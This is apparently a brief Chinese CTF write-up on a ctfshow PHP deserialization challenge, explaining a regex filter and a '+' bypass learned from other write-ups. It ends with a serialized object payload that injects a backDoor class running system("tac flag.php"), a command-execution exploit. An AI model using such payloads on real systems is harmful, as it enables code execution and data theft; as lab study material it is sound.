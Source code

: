 <figure><img src="../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### ①代码解释

就是加了正则表达式，其他都差异。我们这里就直接解释这个正则表达式了。这个正则表达式匹配的就是字母:数字，这种，举个例子就是O:124,C:123,o:123,c:123.

### ②思路解释

这个我的确是不知道，但是看了别人的wp，大概是，就是在数字前面加一个+，是表示正数吗，我不太清楚，记住就行了吧。

所以其实得到的是

```
O:11:"ctfShowUser":4:{s:21:"ctfShowUserusername";s:6:"xxxxxx";s:21:"ctfShowUserpassword";s:6:"xxxxxx";s:18:"ctfShowUserisVip";b:0;s:18:"ctfShowUserclass";O:8:"backDoor":1:{s:14:"backDoorcode";s:23:"system("tac flag.php");";}}
```
